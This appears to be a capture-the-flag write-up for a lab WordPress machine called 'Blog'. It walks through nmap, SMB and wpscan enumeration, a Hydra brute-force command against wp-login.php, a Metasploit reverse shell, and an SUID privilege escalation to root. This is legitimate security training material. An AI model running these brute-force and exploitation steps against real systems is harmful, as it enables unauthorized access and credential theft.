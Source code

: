 # Blog Write-up

## Initial Enumeration

The only initial information provided is an IP address. We begin by conducting an Nmap scan to identify open ports and services:

```bash
nmap -sC -sV -v {target_ip}
```

### Scan Results:

![image](https://github.com/user-attachments/assets/d799ac5f-9d06-4d92-92ae-9ad28dc490ed)

## SMB Enumeration

Taking a look into the SMB ports for some files may yield some information.

```bash
smbclient -L {target_ip}
```

![image](https://github.com/user-attachments/assets/b82b7277-6869-4be6-8481-f89680e62122)

No information is taken from any of the files but the tswift and check-this file are pretty funny.

The only thing of value is a possible username with Billy. Moving onto the webpage for some continued exploit searching.


## HTTP enumeration

Given a simple blog page some important information is given. The webpage is a using WordPress which can be enumerated by wpscan, a scanner specifically designed to enumerate wordpress.

```bash
wpscan --url blog.thm -e u
```

Cutting out the unimportant information, there is two users found

1. kwheel
2. bjoel

![image](https://github.com/user-attachments/assets/f9ed6906-e698-48d6-a3fd-c8adcf43d15e)

## Directory Enumeration

With a basic gobuster scan, a login page is discovered, brute forcing with some credentials is an excellent option here if rate limiting isn't implemented.

```bash
gobuster dir -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u blog.thm -x .txt,.php -t 64
```

![image](https://github.com/user-attachments/assets/2c12f4d6-6b36-45a3-a3d2-c2dbcabce2c8)

### Password Cracking

Using Hydra to bruteforce kwheel's password.

```bash
hydra -l kwheel -P /usr/share/wordlists/rockyou.txt blog.thm http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Fblog.thm%2Fwp-admin%2F&testcookie=1:F=The password you entered for the username" -v -f
```

![image](https://github.com/user-attachments/assets/bb03a490-867a-421b-9194-4ec660e8a4fd)

Now that credentials have been obtained, access to the edit the page is gained.


### Word Press Exploitation

Since WordPress is using version 5.0, metasploit has a exploit ready to go for a reverse shell.

![image](https://github.com/user-attachments/assets/9b9948f9-f0d5-4f96-9143-db841e2dc691)

With the payload configured, running it gives a meterpreter shell, which I prefer to turn into a normal command shell.
### First Flag

Into the home directory of bjoel, user.txt is a trap! Fool me once or something but I will take you down.

![image](https://github.com/user-attachments/assets/cfd27844-8992-4326-af02-9489069bb409)

## Privilege Escalation

 suid permissions.

```bash
find / -type f -perm -04000 -ls 2>/dev/null
```
One binary in particular is interesting, /usr/sbin/checker. Using ltrace to track what library calls are made, we see that admin env variable is checked. What if we set it to 1?

![image](https://github.com/user-attachments/assets/73008bbe-a62b-4ebf-87d3-76d304d982d7)

![image](https://github.com/user-attachments/assets/3f2cc210-2016-4650-8a07-2343e3b137e4)

And with that we've obtained root privileges!

### Actual First Flag and Root Flag

![image](https://github.com/user-attachments/assets/28e9dadc-7d77-4a52-9e30-8eb28de3ea52)

### Notes:
- Enumeration of WordPress, could've been better but it was my first time using wpscan which is a great tool and something I will be implementing into my repertoire.
